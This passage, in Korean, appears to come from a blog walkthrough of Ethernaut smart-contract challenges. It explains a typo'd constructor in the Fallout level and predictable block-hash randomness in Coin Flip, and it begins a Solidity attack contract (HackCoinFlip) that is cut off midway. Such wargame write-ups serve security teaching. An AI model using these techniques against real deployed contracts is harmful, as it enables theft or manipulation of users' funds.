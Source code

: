 솔리디티에서 생성자는 컨트랙트 이름과 동일합니다(자바 클래스 처럼). 하지만 지금 솔리디티 버전에서는 문법이 변경되어 <b>constructor</b>라는 키워드를 사용합니다.
그런데 위에 코드는 뭔가 이상합니다. Fallout이 컨트랙트 이름인데 생성자는 Fal<b><font color="red">1</font></b>out으로 되어 있습니다.
맞습니다. 오타입니다! 이 컨트랙트를 작성할 때 아마 잘못 작성한 것이지만 컴파일 오류는 나지 않을 겁니다. 컨트랙트가 반드시 생성자를 가져야 한다는 법이 없고
함수 이름 역시 영문자와 숫자가 가능하니까요.


### 3. Coin Flip (difficulty 3/10)

세 번째 문제부터는 좀 어렵습니다. 다른 컨트랙트를 작성해서 이 문제의 컨트랙트를 공격(?)해야 합니다("Beyond the console").
이 게임의 목표는 다음과 같습니다.

> To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

일종의 동전 던지기 게임인데 연속해서 10번을 이겨야 합니다. 아무리 확률이 50%라고는 하지만... 과연 연속 10번을 이길 수 있을까요? 아니면
다른 방법으로 10번(혹은 100번 이상)을 이길 수 있을까요? 😅

우선 주어진 컨트랙트를 살펴보겠습니다. 이 컨트랙트 인스턴스가 생성되면 연승기록이 0으로 초기화됩니다. 메소드 flip은 예측 값을 bool 타입 _guess로
전달받고 그것이 맞으면 true 틀리면 false를 리턴하도록 되어 있습니다. 그리고 예측 값이 맞으면 연승기록 카운터를 하나씩 증가시킵니다.

{% highlight javascript %}
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
  }
{% endhighlight %}

예측 값과 비교하는 난수발생 로직을 보면 블록해쉬 값을 사용하고 있습니다. 이 메소드를 실행하는 트랜잭션이 기록되는 블록의 앞에 있는
블록 해쉬를 사용하여 미리 정해진 상수 FACTOR로 나누어 몫이 1이면 true, 그렇지 않으면 false로 합니다.

그런데 난수는 어떤 숫자가 나올 지 모를 경우에만 난수로서의 의미가 있습니다. 이 트랜잭션을 실행하면서
기록될 블록의 해쉬는 사실 이 컨트랙트에 있는 로직처럼 누구나 알 수 있습니다. 다시 말해서 난수가 충분히 100% 예측 가능한 값이라는 말이 되겠습니다.

다음과 같은 새로운 컨트랙트를 작성할 수 있습니다. 이 컨트랙트에서는 공격 대상이 되는 문제의 CoinFlip 컨트랙트의 인스턴스를 생성하면서
난수 로직을 미리 실행하여 그 값을 flip 메소드에 전달합니다. 새로운 컨트랙트의 guess 메소드는 CoinFlip 컨트랙트의 flip 메소드를 실행하므로
해당 트랜잭션은 동일한 블록으로 마이닝될 것이므로 이전 블록 해쉬값은 동일하게 됩니다. 따라서 난수발생 로직을 미리 실행할 수 있는 것입니다.


{% highlight javascript %}
pragma solidity ^0.4.24;
contract HackCoinFlip {

   uint FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
   CoinFlip public coinFlip;
   address public owner;
   bool public result;

   constructor(address _addr) public {
       coinFlip = CoinFlip(_addr);
       owner = msg.sender;
   }

   modifier onlyOwner {
       require (msg.sender == owner, "Only owner can call this function.");
       _;
   }